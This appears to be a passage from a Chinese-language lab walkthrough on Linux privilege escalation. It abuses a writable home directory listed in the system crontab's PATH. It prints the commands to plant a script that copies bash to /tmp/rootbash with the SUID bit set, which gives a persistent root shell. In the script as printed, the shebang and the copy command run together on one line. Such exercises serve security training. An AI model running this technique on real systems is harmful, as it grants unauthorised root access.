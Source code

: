 ![](img/ba40fa04009957ca1331b07c75eba875.png)![](img/dd88424c947fc7af78a5062cc0bb4c62.png)

# 任务 9: Cron 作业路径环境变量

查看系统范围的 crontab 的内容:

```
cat /etc/crontab
```

注意，PATH 变量以/home/user 开始，这是我们用户的主目录。

在您的主目录中创建一个名为 overwrite.sh 的文件，包含以下内容:

```
#!/bin/bashcp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

确保该文件是可执行的:

```
chmod +x /home/user/overwrite.sh
```

